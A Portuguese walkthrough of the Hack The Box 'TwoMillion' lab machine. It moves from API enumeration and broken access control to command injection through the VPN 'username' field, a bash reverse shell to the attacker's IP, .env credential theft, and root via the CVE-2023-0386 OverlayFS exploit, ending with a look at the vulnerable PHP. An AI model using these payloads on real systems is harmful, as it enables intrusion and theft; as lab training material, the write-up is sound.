# TwoMillion

## Riconzeraa

<!DOCTYPE html>
<html>
<head>
  <style>
    .top-right {
      position: absolute;
      top: 200px;
      right: 30px;
    }
  </style>
</head>
<body>
  <div class="top-right">
    <p><b>Responsável: Comunidade</b></p>
  </div>
</body>
</html>

_________

## Controle de Versões

| DATA | VERSÃO | ALTERAÇÕES     |
| ---- | ------ | -------------- |
| 27-09|   1.0  | Versão inicial |
| 29-09|   1.0  | Continuação da doc |
| 30-09|   1.0  | Finalizando a versão 1.0 |

_________

> ## Termos de confidencialidade
>
> Este documento contém informações sobre como resolver o desafio TwoMillion. A Duplicação, redistribuição ou uso no todo ou em parte desse repositório e das lives é super RECOMENDADA, vamos ajudar a comunidade a crescer, só não esqueça de marcar o Rincon (@rinconzeraa) e o Proton (@proton.negativo), esse material só existe graça ao esforço deles e a colaboração de todos da comunidade.
> Para assistir a gravação das lives no youtube acesse:
> [Hack the box - Two Million - Parte I](https://www.youtube.com/watch?v=YBsrcmCG1e0)
> [Hack the box - Two Million - Parte II](https://www.youtube.com/watch?v=Z3EpVJRbprk)

_________

> ## Aviso Legal
>
> O Desafio foi realizado nos dias 20/09/2023 até 25/09/2023. O relatório começou a ser escrito no dia 27/09/2023 e finalizado no dia 29/09/2023.
>

---

## Aviso Legal

O desafio foi realizado no período de 20/09/2023 a 25/09/2023. O relatório começou a ser escrito em 27/09/2023 e foi finalizado em 29/09/2023.

---

## Introdução

Para acessar a máquina, é necessário possuir uma conta no **Hack The Box**. A máquina para o desafio é chamada [TwoMillion](https://app.hackthebox.com/machines/547). É importante destacar que a utilização de uma VPN é necessária para se conectar à rede em que a máquina está localizada.

---

## Escopo

Neste desafio, exploraremos a máquina "TwoMillion", cujo endereço IP é 10.10.11.221.

---

## Metodologia

Para a realização deste trabalho, desenvolvemos nossa própria metodologia, combinando-a com padrões estabelecidos e amplamente reconhecidos. As etapas foram executadas de acordo com as seguintes fases:

1. Planejamento e Reconhecimento.
2. Escaneamento de Vulnerabilidades.
3. Exploração das Vulnerabilidades.
4. Utilização das flags para resolver o desafio.

---

## Planejamento e Reconhecimento

O planejamento envolve a definição dos objetivos do teste de penetração, incluindo sistemas, aplicativos e redes a serem testados. É fundamental compreender os requisitos e o escopo do teste. Com base nisso, um plano detalhado é elaborado, definindo as técnicas, ferramentas e abordagens a serem utilizadas.

O reconhecimento concentra-se na coleta de informações sobre o ambiente-alvo. Isso envolve a pesquisa de informações públicas disponíveis, como registros DNS, informações WHOIS e descoberta de subdomínios. Além disso, são realizados testes de varredura de portas e serviços para identificar possíveis pontos de entrada.

---

## Ferramentas de Análise

Durante os testes e explicações apresentados na transmissão ao vivo, foram utilizadas várias ferramentas de análise. Para obter informações detalhadas sobre essas ferramentas, recomendamos a visualização dos vídeos.

- nslookup
- Nmap
- ssh
- Postman
- Burp Suite
- Wget
- nc
- ffuf

---

## Aplicação da Metodologia

A avaliação de segurança seguiu a metodologia descrita anteriormente, incluindo as seguintes etapas:

a) Levantamento de Informações: Coleta de informações sobre o projeto, arquitetura, tecnologias utilizadas, perfis de acesso e escopo definido.

b) Mapeamento de Rede: Utilização do Nmap para identificar os hosts ativos, portas abertas e serviços em execução.

c) Testes de Infraestrutura: Utilização de algumas ferramentas para varredura de vulnerabilidades na infraestrutura de rede e na máquina para identificar falhas de configuração, patches ausentes, etc.

d) Exploração da Falha: Exploração das vulnerabilidades encontradas no desafio.

e) Análise e Relatório: Análise dos resultados dos testes, documentação das vulnerabilidades encontradas e elaboração de um relatório detalhado com as descobertas.

---

## Análise Técnica

Após a conexão via OpenVPN, podemos iniciar o desafio. Para isso, anotamos inicialmente o endereço IP da máquina:

```shell
10.10.11.221
```

Iniciaremos a enumeração, e o primeiro passo consiste em utilizar o navegador. Além disso, é importante ativar as Ferramentas de Desenvolvedor (DevTools) do navegador e acessar a guia de Rede, conforme ilustrado na imagem a seguir:


Acessaremos a página web, para isso coloque o ip da máquina no navegador e dê enter. O resultado será



Não se preocupe com o erro de conexão. Vamos analisar com mais detalhes a seção de rede. Conforme mostrado na imagem da página da web, vamos clicar na conexão **GET** que foi realizada.


Observe que ocorreu um redirecionamento para a página *http://2million.htb/*. Vamos verificar o DNS dessa página:

```shell
nslookup - 1.1.1.1
> set q=A
> 2million.htb
```

com o seguinte resultado:

```shell
;; communications error to 1.1.1.1#53: timed out
Server:	1.1.1.1
Address:	1.1.1.1#53

** server can't find 2million.htb: NXDOMAIN
```

Entendido. Como superusuário, vou editar o arquivo */etc/hosts* e adicionar as seguintes informações no final do arquivo:

```plaintext
[ip_do_servidor] 2million.htb
```

Certifique-se de substituir `[ip_do_servidor]` pelo endereço IP correspondente ao domínio 2million.htb.

```shell
10.10.11.221     2million.htb
```

Agora que o DNS está resolvido, você pode adicionar a URL que estava sendo chamada para o redirecionamento. Forneça a URL que deseja adicionar ao seu relatório e eu o ajudarei a incluí-la.

```shell
http://2million.htb/
```

então temos o seguinte resultado:



Antes de prosseguir com o acesso à página web, vamos utilizar o **nmap** para realizar uma enumeração dos serviços e das portas que estão abertas.

```shell
nmap -sSVC -Pn -v -p- 10.10.11.221
```

resultado:

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
| http-methods: 
|_  Supported Methods: GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Temos, portanto, a porta 22 e a porta 80 abertas. Na porta 22, encontramos o serviço OpenSSH 8.9p1 e na porta 80, temos o servidor web utilizando o Nginx.

A próxima etapa envolve a análise do código-fonte da página. No vídeo, foram mostrados detalhes passo a passo sobre como a estrutura do site funciona. Recomendo verificar essa seção no vídeo para entender todos os detalhes.

Neste relatório, iremos pular diretamente para a seção de login do sistema. Portanto, acesse:

```shell
http://2million.htb/login
```



Decidimos tentar fazer login com um usuário qualquer para investigar o comportamento do sistema. O resultado da tentativa de login é o seguinte:



O próximo passo consiste em utilizar uma ferramenta de fuzzing para mapear os endpoints que estão ativos. Existem várias ferramentas que podem realizar esse trabalho, e também é possível criar um script personalizado para realizar a varredura. No entanto, neste caso, utilizaremos uma ferramenta já existente chamada [ffuf](https://github.com/ffuf/ffuf), que é uma ferramenta em Go projetada para fuzzing.

Para começar, siga as etapas abaixo:

1. Faça a instalação do `ffuf` conforme instruções disponíveis no repositório oficial (veja também a parte I do vídeo para mais detalhes).

2. Utilize a seguinte [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-medium.txt) para o fuzzing. Para fazer o download da wordlist, clique na opção "Raw" na página do GitHub para acessar somente a lista de palavras. Copie a URL da página e utilize o comando `wget` para iniciar o download.

Siga essas etapas para configurar a ferramenta `ffuf` e iniciar a varredura dos endpoints.

```shell
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-medium.txt

```

Pronto, feito isso usaremos o **ffuf**.

```shell
 ffuf -w directory-list-2.3-medium.txt -u http://2million.htb/FUZZ -fc 301
```

usamos a flag **-fc 301** para remover os resultados que forem 301. Temos os seguintes resultados:



A partir deste resultado, coneeguimos visualizar vários endpoints, mas para a nossa análise temos alguns endpoint interessantes: "register" e "invite". Exploraremos cada um deles em detalhes.

Usando o register:

```shell
http://2million.htb/register
```

com o seguinte resultado:



note que é necessário usar um **invite code**, então o próximo endpoint que veremos será o **invite**. Então acessando:

```shell
http://2million.htb/invite
```



Vamos olhar agora o [código fonte](view-source:http://2million.htb/invite) dessa página. Veja que na parte de script temos a seguinte informação:



No item 1, existe um código em js: `/js/inviteapi.min.js` e no item 2 temos uma post sendo realizado no seguinte endPoint:

```shell
/api/v1/invite/verify
```

Primeiramente exploraremos o item 1, uma vez que é um  script que está sendo chamado pelo código, talvez exista alguma informação importante nesse script. Ao clicar no link temos o seguinte código em js:

```js
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

Observe que a função `makeInviteCode()` parece ser bastante interessante. Com o console do navegador ativo, chamaremos essa função, conforme é mostrado na imagem a seguir:



note que existe uma mensagem que está usando uma cifra ROT13, dessa forma iremos usar o seguinte site para decifrar essa mensagem: https://gchq.github.io/CyberChef/



```shell
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Ou seja, será necessário fazer um POST na rota /api/v1/invite/generate. Então de fato, isso corrobora para a informação do item 2, que é o post nessa rota. Próxima ferramenta que iremos usar será o postman.

Então com o postman aberto, passe a seguinte rota:

```shell
http://2million.htb/api/v1/invite/generate
```



Observe que temos um retorno de um objeto que inclui uma variável chamada "code", a qual contém uma informação codificada em base64:

```shell
VVFIOE4tSjYyMzYtWlZHUkotR01ZRUU=
```

Vale a pena destacar que o código em base64 muda para cada novo login; portanto, se o resultado obtido for diferente deste relatório ou do vídeo, não se preocupe.

No próximo passo, iremos decodificar essa informação usando o terminal do Linux (também é possível utilizar sites online para essa decodificação, como, por exemplo, [base64decode](https://www.base64decode.org/)). Com o terminal aberto, utilize o seguinte comando:

```shell
echo "VVFIOE4tSjYyMzYtWlZHUkotR01ZRUU=" | base64 -d
```

o retorno foi:

```shell
UQH8N-J6236-ZVGRJ-GMYEE
```

iremos usar essa informação na página de **invite**. Então acesse:

```shell
http://2million.htb/invite
```

e cole o código, conforme a imagem a seguir:



agora, basta clicar no botão **Sing Up**. Seremos redirecionados para a página de **register**.



Próximo passo, será criar o cadastro. Usaremos as seguintes informações:

```shell
username: teste123
e-mail: teste123@teste.com
password: 1234
```

Após criar o usuário, o site irá redirecionar para a página de login. Portanto, faremos o login em seguida. Antes de efetuar o login, utilizaremos o [Burp](https://portswigger.net/burp/communitydownload) para facilitar o nosso processo. Após o login, iremos acessar a seção de **access**.

```shell
http://2million.htb/home/access
```

iremos clicar no botão **Connection Pack**



Agora iremos analisar as requisições na função **Logger** do Burp:



Note que no item 2 temos uma requisição GET na api, iremos clicar com o botão direto e selecionar a opção **Send Repeater**.



Após isso, acessaremos a aba **Repeater**, por fim, mudaremos a url para **api/v1** e criaremos uma nova requisição ao clicar no botão **Send**.



por conseguinte foi gerado o seguinte resultado:



temos então, todas as rotas da api. O que chama muita atenção são as seguintes rotas:

```json
"admin": {
  "GET": {
    "/api/v1/admin/auth": "Check if user is admin"
  },
  "POST": {
    "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
  },
  "PUT": {
    "/api/v1/admin/settings/update": "Update user settings"
  }
}
```

São as rotas que o admin tem acesso. Iremos tentar acessar essas rotas usando o próprio Burp.

- GET na rota `/api/v1/admin/auth`


- POST na rota `/api/v1/admin/vpn/generate`, note que não estamos autorizado em acessar essa página.



- PUT na rota `/api/v1/admin/settings/update`:



Ao fazer uma solicitação PUT nessa rota, o response foi o código 200 e NÃO o 401, de  acesso não autorização, o que sugere que essa rota não está verificando as permissões do usuário de forma adequada. Isso indica uma vulnerabilidade de [Quebra de Controle de Acesso](https://owasp.org/Top10/A01_2021-Broken_Access_Control/). Portanto, iremos explorar essa rota para realizar a escalada de privilégios dentro do sistema.

Além disso, observe que a mensagem de erro retornada é "Invalid content type" (Tipo de conteúdo inválido), o que sugere que a aplicação espera um tipo de dado específico e não estamos fornecendo isso. Para contornar esse problema, enviaremos dados no formato JSON. Portanto, inclua a seguinte informação no corpo da requisição:

```json
Content-Type: application/json
{}
```

temos o seguinte resultado:



Note que agora na mensagem de aviso é dito que é necessário passar um e-mail. Então usaremos o e-mail de cadastro. Feito isso temos:



agora é necessário passar como parâmetro a variável "is_admin", iremos usar então `is_admin:1`.



Para verificar se de fato o usuário é admin, iremos chamar a primeira rota:



Escalação de privilégio realizada com sucesso. Próximo passo será explorar a rota do POST.



novamente, é necessário passar que o tipo de dado é json. Então iremos adicionar essa informação, conforme feito anteriormente.



é necessário passar um parâmetro `username`.



Nesse caso usamos as seguintes informações:

```json
{
"username":"teste"
}
```

Vamos tentar alterar o valor do campo "username" para verificar se há algum tratamento de dados sendo realizado. Se conseguimos reenviar a requisição sem erro, isso pode indicar uma possível vulnerabilidade de injeção de código. É importante lembrar que, com base no nosso mapeamento com o nmap, descobrimos que o servidor é o Nginx e ele pode aceitar comandos em shell. Portanto, continuaremos explorando essa possibilidade.

```json
{
"username":"teste; ls -a #"
}
```

Antes de continuar é necessário entender o comando:

1. `"username":"teste; ls -a #"`: é uma parte de uma solicitação HTTP que está sendo enviado para o servidor. O campo "username" é um formulário, dessa forma será enviado um payload de solicitação.

2. `teste;`: O ponto-e-vírgula (;) é usado para separar comandos no shell do sistema. Neste caso, ele está sendo usado para encerrar o que quer que seja esperado como entrada válida no campo "username" e começar a executar um novo comando.

3. `ls -a`: Este é um comando do sistema Linux/Unix que é usado para listar arquivos e diretórios em um diretório específico. O `-a` é uma opção que indica para listar também arquivos ocultos, que começam com um ponto (.) no Linux.

4. `#`: O caractere "#" é usado em muitas linguagens de script e em sistemas Unix/Linux como um marcador de comentário. Tudo após o "#" é ignorado e não é executado como parte do comando.

Portanto, quando essa solicitação é processada pelo servidor Nginx, se ele for vulnerável à injeção de comando, ele pode executar os seguintes passos:

- Aceitar a solicitação HTTP.
- Processar o campo "username".
- Interpretar a parte "teste; ls -a #" como um comando a ser executado no shell do sistema.

Portanto, esperamos que o servidor Nginx execute o comando `ls -a` no sistema operacional em que está hospedado. Isso listará os arquivos e diretórios no diretório atual, incluindo os arquivos ocultos. Dito isso, temos o seguinte resultado:


Bingo! O sistema é vulnerável por injeção de comandos. Agora é possível fazer infinitos ataques, como por exemplo, criar um shell reverse. Para facilitar o acesso aos arquivos iremos criar um reverse shell, para isso, no terminal do linux usaremos o comando:

```shell
nc -nlvp 1337
```

Em que:

**nc** É o comando para iniciar o Netcat, uma ferramenta de linha de comando utilizada para interações de rede. **-n** Esta opção instrui o Netcat a não fazer resolução de DNS, o que significa que ele não tentará resolver endereços IP a partir de nomes de host. Isso pode ser útil quando você quer usar diretamente endereços IP.

**-l** Essa opção indica que o Netcat deve funcionar em modo "escuta" (listen), ou seja, ele ficará aguardando por conexões em vez de tentar estabelecer uma conexão.

**-v** Essa opção ativa o modo "verboso", que exibe informações detalhadas sobre a atividade do Netcat. Isso pode ser útil para depuração e monitoramento.

**-p 1337** Esta parte especifica a porta (port) na qual o Netcat deve ouvir por conexões. Neste caso, ele está configurado para ouvir na porta 1337. Você pode substituir "1337" por qualquer número de porta desejado.

Em outro terminal virifique o ip atual da conexão com o comando `ifconfig`, no meu caso é:

```shell
10.10.14.156
```

O próximo passo envolve o envio da conexão por meio da injeção de comando. Para isso, utilizaremos o seguinte site: [revshells](https://www.revshells.com/). Preencha com as informações necessárias e obterá o seguinte resultado:

```shell
bash -i >& /dev/tcp/10.10.14.156/1337 0>&1
```

Esse comando cria uma conexão reversa, em que:

1. `bash -i`: Isso inicia uma nova instância do Bash em modo interativo. O modo interativo permite a entrada e a saída de comandos, tornando-o adequado para uma sessão de shell.

2. `>&`: Esse operador é usado para redirecionar a saída de um comando. No caso, ">&" está sendo usado para redirecionar a saída padrão (stdout) e o erro padrão (stderr) para um novo destino.

3. `/dev/tcp/10.10.14.156/1337`: Isso é onde ocorre o redirecionamento da saída. Ele redireciona a saída padrão e o erro padrão para um endereço IP e porta específicos. Nesse caso, "/dev/tcp/10.10.14.156/1337" é interpretado como a criação de uma conexão TCP para o endereço IP 10.10.14.156 na porta 1337. Portanto, os dados de saída (stdout e stderr) do shell interativo serão enviados para esse endereço e porta.

4. `0>&1`: Isso redireciona a entrada padrão (stdin) para a saída padrão (stdout). Isso é feito para que o shell interativo possa receber comandos a partir da conexão estabelecida e enviar as respostas de volta por meio da mesma conexão.

Dessa forma, no burp:

```json
{
"username":"teste; bash -c 'bash -i >& /dev/tcp/10.10.14.156/1337 0>&1' #"
}
```

estamos usando o comando `bash -c` para especificar um comando que será executado pelo Bash, que será o shellreverse. Após várias tentativas descobrimos que era necessário o uso desse comando.

Feito essa conexão agora é possível fazer tudo via terminal. Usando comando `ls -a`:



Note que existe um arquivo `.env`, para ver o conteúdo use:

```shell
cat .env
```

op retorno é:

```shell
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

como temos um usuário **admin** e a senha **SuperDuperPass123**, iremos tentar fazer o acesso via ssh, que conforme vimos ao usar o nmap o ssh está ativo na porta 22. Em um outro terminal, use o seguinte comando:

```shell
ssh admin@2million.htb 
```

use a senha `SuperDuperPass123`, conexão realizada com sucesso, conforme é mostrado a seguir:



Note que tem uma mensagem:

```txt
You have mail.
Last login: Fri Sep 29 19:52:56 2023 from 10.10.16.79
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

Vamos guardar essa informação. Agora listaremos as informações da máquina, para isso:

```shell
ls
```

e para ver o conteúdo do arquivo `user.txt`

```shell
cat user.txt 
```

Com isso, obtivemos nossa primeira flag. No entanto, o administrador não é o superusuário desta máquina, portanto, será necessário realizar mais uma escalada de privilégios. Para isso, utilizaremos a informação do e-mail, bastando ler o e-mail:

```shell
cat /var/mail/admin
```



temos a seguinte informação (já traduzindo para pt)

```txt
"Eu sei que você está trabalhando o mais rápido que pode na migração do banco de dados. Enquanto estamos parcialmente inativos, você também pode atualizar o sistema operacional no nosso servidor web? Já ocorreram algumas vulnerabilidades críticas no kernel do Linux este ano. A vulnerabilidade na OverlayFS / FUSE parece preocupante. Não podemos correr o risco de sermos afetados por isso."
```

Então sabemos que existe uma vulnerabilidade no Kernel do Linux, que é a OverlayFS. Então próximo passo é descobir se a versão é vulnerável, então use o comando:

```shell
uname -r
```

como resultado temos `5.15.70-051570-generic`. Pesquisando no google sobre a vulnerabilidade OverlayFS, temos um exploit no [github](https://github.com/sxlmnwb/CVE-2023-0386?source=post_page-----3aee8b2f99cd--------------------------------), iremos fazer o download dele na máquina e depois via scp iremos enviar para o admin do sistema no diretório `tmp`

```shell
scp CVE-2023-0386-master.zip admin@2million.htb:/tmp/
```

agora voltando no terminal que está o ssh aberto, iremos na pasta `tmp` e usar o unzip:

```shell
 unzip CVE-2023-0386-master.zip  
```

Segundo a documentação desse exploit é necessário ter um segundo terminal aberto, então crie um novo terminal e uma nova conexão via ssh. Em ambos os caso entre no diretório do exploit que foi extraído no diretório `/tmp`.

No terminal 1, use os seguintes comandos:

```shell
make all
```

para fazer a instalação. E depois:

```shell
./fuse ./ovlcap/lower ./gc
```

já no segundo terminal use o comando:

```shell
./exp
```

dessa forma irá acontecer o escalonamento de privilégio. Por fim, basta ir no diretório root.

```shell
cd /root
```

use o comando `ls` para listar os arquivos. E o comando `cat root.txt` para ler o que está dentro do arquivo root.txt. Que por fim, será nossa última flag.

### Bônus

Vamos entender o código que possibilitou a injeção de comandos. Para isso, volte no terminal que fizemos o shell reverse e entre no diretório `/html/controllers`, listando os arquivos temos:

```shell
APIController.php
AdminController.php
AuthController.php
HomeController.php
InviteController.php
VPNController.php
```

iremos usar o comando cat no arquivo `VPNController.php`. Então no final do arquivo temos o seguinte código

```php
public function admin_vpn($router) {
        if (!isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true) {
            return header("HTTP/1.1 401 Unauthorized");
            exit;
        }
        if (!isset($_SESSION['is_admin']) || $_SESSION['is_admin'] !== 1) {
            return header("HTTP/1.1 401 Unauthorized");
            exit;
        }
        if (!isset($_SERVER['CONTENT_TYPE']) || $_SERVER['CONTENT_TYPE'] !== 'application/json') {
            return json_encode([
                'status' => 'danger',
                'message' => 'Invalid content type.'
            ]);
            exit;
        }

        $body = file_get_contents('php://input');
        $json = json_decode($body);

        if (!isset($json)) {
            return json_encode([
                'status' => 'danger',
                'message' => 'Missing parameter: username'
            ]);
            exit;
        }
        if (!$json->username) {
            return json_encode([
                'status' => 'danger',
                    'message' => 'Missing parameter: username'
            ]);
            exit;
        }
        $username = $json->username;

        $this->regenerate_user_vpn($router, $username);
        $output = shell_exec("/usr/bin/cat /var/www/html/VPN/user/$username.ovpn");

        return is_array($output) ? implode("<br>", $output) : $output;
    }
}
```

esse código tem vários problemas, entre eles está a vulnerabilidade que permitiu a execução de comandos.

```php
$output = shell_exec("/usr/bin/cat /var/www/html/VPN/user/$username.ovpn");
```

Uso de shell_exec: Executar comandos do sistema por meio de shell_exec é arriscado em termos de segurança, especialmente se dados não confiáveis ​​(como entradas do usuário) forem usados sem filtragem adequada. Como não existe esse filtro, então foi possível injetar código nessa requisição.
